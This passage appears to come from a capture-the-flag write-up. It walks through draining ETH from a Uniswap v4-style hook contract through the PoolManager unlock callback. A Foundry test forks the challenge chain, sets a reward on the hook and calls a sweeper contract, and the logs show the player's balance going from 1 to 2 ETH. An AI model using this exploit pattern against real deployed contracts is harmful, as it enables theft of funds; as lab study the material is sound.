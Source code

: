 The contract works like this:
- Player calls `swap()`
- `swap()` calls `PoolManager.unlock()`
- `unlock()` calls `HookSweep.unlockCallBack()`
- `unlockCallBack()` calls `PoolManager.swap()`, as the contract is now unlocked

Let's put all of this knowledge to the test with a Foundry test:
```solidity
// test/Sweep.t.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.23;

import {Test, console2} from "forge-std/Test.sol";
import {Challenge} from "src/challenge.sol";
import {HookSweep} from "src/HookSweep.sol";

contract SweepTest is Test {
    address player;
    address challenge;
    address hook;
    address manager;
    address token;
    HookSweep sweeper;

    function setUp() public {
        vm.createSelectFork("CHALLENGE_RPC_URL");
        player = vm.addr(0xf2bb452a08e478f366f18a4c3e7d166f1ceac95a2e06b7f6ec2f45914d4ccee3);
        challenge = 0x9fE46736679d2D9a65F0992F2272dE9f3c7fa6e0;
        // fetched addresses
        token = 0x75537828f2ce51be7289709686A69CbFDbB714F1;
        hook = 0x7400872EE85d4546F9CB4Fa776c43B5E0c78C0C0;
        manager = 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512;

        sweeper = new HookSweep(hook, manager, token);
    }

    function test_SweepHook() public {
        // set reward on the hook for our pool
        Challenge(payable(challenge)).arbitrary(hook, abi.encodeWithSignature("set_reward()"));

        console2.log("Player's ETH balance before: %18e", player.balance);
        // using instead of prank to set tx.origin to the player as well
        vm.broadcast(player);
        sweeper.swap();
        console2.log("Player's ETH balance after: %18e", player.balance);
        assertEq(player.balance, 2 ether);
    }
}

```

It worked! The player's balance became 2 ETH:
```
Logs:
  Player's balance before:  1000000000000000000
  Player's balance after:  2000000000000000000
```
